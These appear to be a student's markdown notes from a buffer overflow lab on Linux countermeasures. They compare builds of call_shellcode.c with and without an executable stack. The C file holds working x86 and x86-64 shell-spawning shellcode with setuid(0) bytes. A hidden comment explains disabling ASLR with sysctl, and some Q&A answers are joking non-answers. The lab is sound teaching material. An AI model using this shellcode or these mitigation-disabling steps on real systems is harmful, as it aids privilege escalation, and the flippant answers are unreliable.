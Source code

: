 # Understand the countermeasures to buffer overflow applied by Linux OS

## Compile with `noexecstack`

```bash
# compile call_shellcode.c
gcc -o call_shellcode -z noexecstack -fstack-protector call_shellcode.c
# run the COMPILED program
./call_shellcode
# output:
Segmentation fault (core dumped)
```

<question></question>
What does this tell me?
<answer></answer>
The "Segmentation fault" error message indicates that the program has attempted to access memory that it is not allowed to access, such as trying to read from or write to memory that has not been allocated to the program.

Core dumped means when a part of code tries to perform read and write operation on a read-only or free location.

<question></question>
Yea but seriously, What does this tell me?
<answer></answer>
chirp chirp

## Compile with `execstack`

```bash
# compile call_shellcode.c
gcc -o call_shellcode -z execstack -fstack-protector call_shellcode.c
# run the COMPILED program
./call_shellcode
# output:
$
```

<question></question>
So what's different?

<answer></answer>
This one has a dollar sign and everyone loves dollar's, but in technical terms I have no idea!

Is it possible to call a root shell by using this c program? I think so.


<!--



The command "sudo sysctl -w kernel.randomize_va_space=0" is used to disable Address Space Layout Randomization (ASLR) on a Unix-like system, specifically in the kernel's virtual memory subsystem.

ASLR is a security feature that randomizes the location of code and data in a process's address space, making it more difficult for an attacker to predict the location of vulnerable code or to execute a successful exploit. By default, ASLR is enabled on many Unix-like systems.

The "sudo" command is used to run the "sysctl" command with administrative privileges. "sysctl" is a command that allows you to view and modify kernel parameters in real-time.

In this case, the "-w" option is used to set the value of the "kernel.randomize_va_space" parameter to "0", which effectively disables ASLR. This means that the kernel will no longer randomize the location of code and data in a process's address space.

Disabling ASLR can be useful in some cases, such as when debugging an application or when running legacy software that is not compatible with ASLR. However, it also increases the risk of successful attacks against vulnerable code, as the attacker can now more easily predict the location of code and data in a process's address space.

It is important to use caution when disabling security features like ASLR, and only do so when necessary and with a clear understanding of the risks involved.



 $gcc -o call_shellcode -z noexecstack -fstack-protector call_shellcode.c
1. Try $gcc -o call_shellcode -z execstack -fstack-protector call_shellcode.c
2. Is it possible to call a root shell by using this c program? Demonstrate how a root shell is
prompted by compiling and running call_shellcode.c.
Task 4: Practice -->

```c
// call_shellcode.c

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
// Binary code for setuid(0)
// 64-bit: "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit: "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
int main(int argc, char **argv)
{
    char code[500];
    strcpy(code, shellcode);
    int (*func)() = (int(*)())code;
    func();
    return 1;
}
```
